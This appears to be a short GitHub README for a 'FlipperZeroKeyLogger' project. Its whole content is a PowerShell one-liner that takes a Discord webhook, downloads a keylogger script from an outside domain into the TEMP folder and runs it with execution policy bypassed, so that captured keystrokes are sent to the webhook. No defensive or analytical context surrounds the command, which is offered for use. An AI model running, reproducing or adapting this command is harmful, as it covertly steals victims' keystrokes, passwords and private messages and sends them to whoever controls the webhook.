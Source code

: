 # FlipperZeroKeyLogger
FlipperZeroKeyLogger

## Run
$discord = '<your_webhook_here>' Invoke-WebRequest -Uri 'https://link.wmlsandaruwan.online/FlipperZeroKeylogger' -OutFile "$env:TEMP\keylogger.ps1" powershell.exe -ExecutionPolicy Bypass -File "$env:TEMP\keylogger.ps1" -discord $discord
